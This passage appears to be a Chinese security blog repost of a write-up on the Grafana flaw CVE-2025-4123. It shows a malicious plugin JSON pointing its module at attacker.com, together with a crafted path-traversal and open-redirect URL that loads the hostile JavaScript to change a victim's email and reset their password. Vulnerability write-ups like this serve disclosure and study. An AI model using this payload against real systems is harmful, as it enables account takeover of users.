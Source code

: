/a/plugin-app/explore  
加载该文件，并执行 “module” 参数中提供的 JavaScript。  
  
/a/plugin-app/explore  
 容易受到客户端路径遍历的影响，这允许我们在服务器上加载任意路由，而不是 /api/plugin-app/settings  
。  
  
这允许我们加载打开的重定向，因此，获取自己的恶意 JSON，其中包含了我们想要的任何 JavaScript 文件。  
  
通过利用所有必要的 JS 和 JSON 文件设置我们自己的服务器。只需要托管如下 JSON ：  
```
{    "name": "ExploitPluginReq",    "type": "app",    "id": "grafana-lokiexplore-app",    "enabled": true,    "pinned": true,    "autoEnabled": true,    "module": "http://attacker.com/file?js=file", //malicious js file    "baseUrl": "public/plugins/grafana-lokiexplore-app",    "info": {        "author": {...}    }    ...}
```  
  
加载此路由， /a/..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23/explore  
 ，从而利用客户端路径遍历和开放重定向。  
  
结果展示：  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkOicLibdIFad3KVzHv70ud4fpkakwHGVnYHqtaRNcFX6l1xuBcs1zBK3YRvVjSGiaOVicusfyicoxWpGQ/640?wx_fmt=png&from=appmsg "")  
  
  
恶意 JavaScript 文件被执行，并允许我们更改受害者的电子邮件并重置他们的密码。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkOicLibdIFad3KVzHv70ud4fhvP3bKTOKoj1NI6a2jFiaO5COw8NtdVpeU1q73nf2k2QO3ggicujxgOA/640?wx_fmt=png&from=appmsg "")  
  
  
希望本文能给你更多启发～  
  
原文：https://medium.com/@Nightbloodz/grafana-cve-2025-4123-full-read-ssrf-account-takeover-d12abd13cd53  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
